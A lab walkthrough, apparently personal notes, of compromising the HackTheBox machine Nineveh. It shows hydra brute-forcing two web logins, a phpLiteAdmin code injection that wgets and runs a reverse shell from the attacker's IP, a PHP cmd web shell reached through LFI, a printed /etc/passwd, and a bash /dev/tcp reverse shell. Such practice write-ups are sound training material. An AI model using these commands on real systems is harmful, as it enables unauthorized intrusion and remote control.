 ## HTTP

![[front_page.png]]

directory brute forcing:

```txt
gobuster dir -u http://10.10.10.43 -w /usr/share/wordlists/dirb/big.txt -o /HTB-boxes/Ninevah/2-enum/web/gob_dir.md
```

```txt
/department           (Status: 301) [Size: 315] [--> http://10.10.10.43/department/]
```

We find a login panel:

```txt
http://nineveh.htb/department/login.php
```

![[login-page.png]]

Using the credentials *admin:admin*, we are able to see that we only input an invalid password.

![[invalid_pass.png]]


Using BurpSuite, we can see the paramaters for the login form and get the response for inputting an invalid password.

![[burp_invalid_post.png]]

We can now craft a command to use hydra to brute force the login.

```txt
hydra 10.10.10.43 -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -o /HTB-boxes/Ninevah/2-enum/http/hydra_http_host.md http-form-post "/department/login.php:username=^USER^&password=^PASS^:Invalid Password" -t 10
```


```txt
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
```


![[hydra_success_http.png]]

```txt
http://nineveh.htb/department/manage.php
```

![[http_page1.png]]

```txt
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt
```

![[http_page2.png]]

Secret message:

```txt
-   Have you fixed the login page yet! hardcoded username and password is really bad idea!
-   check your serect folder to get in! figure it out! this is your challenge
-   Improve the db interface.
    ~amrois
```

**Possible user**: *amoris*


```txt
http://nineveh.htb/info.php
```




## HTTPS

```txt
https://nineveh.htb/db/index.php
```

![[https_login.png]]


warning:

```txt
**Warning**: rand() expects parameter 2 to be integer, float given in **/var/www/ssl/db/index.php** on line **114**
```


Using BurpSuite, we can see the paramaters for the login form and get the response for inputting an invalid password for the newly found https website.

![[burp_https_login.png]]

We can now craft a new command to use hydra to brute force the new login.

```txt
hydra 10.10.10.43 -l none -P /usr/share/wordlists/rockyou.txt -e nsr https-form-post "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect password." -t 10 -o /HTB-boxes/Ninevah/2-enum/http/hydra_https_ip.md
```


```txt
[443][http-post-form] host: 10.10.10.43   login: none   password: password123
```

![[hydra_https_success.png]]

we can login to the *phpLiteAdmin* page.

```txt
https://nineveh.htb/db/index.php
```

![[https_admin_page.png]]

```txt
searchsploit php Lite Admin v1.9
```


![[look_for_vulns_https.png]]


```txt
searchsploit -m php/webapps/24044.txt
```

![[xp_url.png]]


generate reverse shell:

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.4 LPORT=4321 -f raw -o revshell.php
```

spin up an http server to host the file:

```bash
python3 -m http.server 80
```

- create a new database with *.php* at the end of the name
![[create_database.png]]
- create a new table
![[make_new_table.png]]
- create a new field with php code as the default value
	- in this case, the php code will download the reverse shell from the attacker machine
![[make_new_field.png]]

php code used:

```php
<?php system("wget 10.10.14.4/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php"); ?>
```

LFI

```txt
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/dev.php&cmd=id
```


```php
<?php system($_REQUEST["cmd"]); ?>
```

![[create_table_success.png]]

```txt
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/dev.php&cmd=id
```


```txt
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../../etc/passwd
```


/etc/passwd

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
amrois:x:1000:1000:,,,:/home/amrois:/bin/bash
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
```


netcat listener
```bash
nc -lvnp 4321
```

```txt
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/dev.php&cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.4/4321 0>%261'
```

![[pop_shell.png]]

we can upgrade our shell by running the following command: 

```python
python3 -c 'import pty;pty.spawn("bash")'
```

![[pimp_shell.png]]

